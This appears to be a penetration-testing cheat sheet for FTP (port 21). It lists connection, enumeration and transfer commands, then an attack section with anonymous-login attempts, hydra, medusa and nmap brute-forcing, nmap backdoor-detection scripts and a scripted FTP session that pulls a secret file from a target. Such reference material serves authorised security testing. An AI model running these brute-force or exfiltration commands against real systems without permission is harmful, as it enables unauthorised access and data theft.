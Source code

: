 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# FTP (21)

## Usage

{% tabs %}
{% tab title="Connect" %}
```bash
# Connect to FTP server
ftp <target>

# No auto login (useful for scripts)
ftp -n <targetp> 

# Verbose mode         
ftp -v <target>          

# Log in as a specific user
ftp <user>@<target>
```
{% endtab %}

{% tab title="Banner Grabbing" %}
```bash
telnet <target> 21
nc <target> 21
```
{% endtab %}

{% tab title="Basic Commands" %}
```bash
# List files
ls                          

# Detailed list of files
dir                         

# Change directory
cd <directory>              

# Change local directory
lcd <local_directory>                      

# Delete file
delete <file>               

# Create directory
mkdir <directory>           

# Remove directory
rmdir <directory>           

# Show remote current directory
pwd                         

# Disconnect
bye / quit / exit           
```
{% endtab %}

{% tab title="Enumeration" %}
```bash
# Get OS type
quote SYST

# Check for passive mode
quote PASV                  

# List server supported commands
quote HELP                  

# Server status
quote STAT                  

# List server features
quote FEAT                  

# Site-specific commands
quote SITE HELP             
```
{% endtab %}

{% tab title="Transfer" %}
```bash
# Download file
get <file>                  

# Download multiple files
mget <files>                

# Upload file
put <file>                  

# Upload multiple files
mput <files> 

# Download an FTP directory
wget -r ftp://username:password@<target-ip></directory/>
```
{% endtab %}
{% endtabs %}

## Attacks

{% tabs %}
{% tab title="Anon" %}
Sometimes are configured to accept passwordless anonymous and/or default logins:

```bash
ftp ftp@<server-ip>
ftp anonymous@<server-ip>
```
{% endtab %}

{% tab title="BFA" %}
```bash
# Using hydra
hydra -l <user> -P <passlist> ftp://<target> 

# Using medusa
medusa -h <target> -u <user> -P <passlist> -M ftp

# Using nmap 
nmap -p 21 --script ftp-brute <target>
```
{% endtab %}

{% tab title="Vulnerability Recon" %}
{% code overflow="wrap" %}
```bash
nmap -p 21 --script ftp-anon,ftp-bounce,ftp-vsftpd-backdoor,ftp-proftpd-backdoor <target>
```
{% endcode %}
{% endtab %}

{% tab title="File Exfil" %}
```bash
# File exfiltration / upload with command-line FTP
echo "open <target>" > script.txt
echo "user anonymous anonymous" >> script.txt
echo "binary" >> script.txt
echo "get secret.txt" >> script.txt
echo "bye" >> script.txt
ftp -n -s:script.txt
```
{% endtab %}
{% endtabs %}
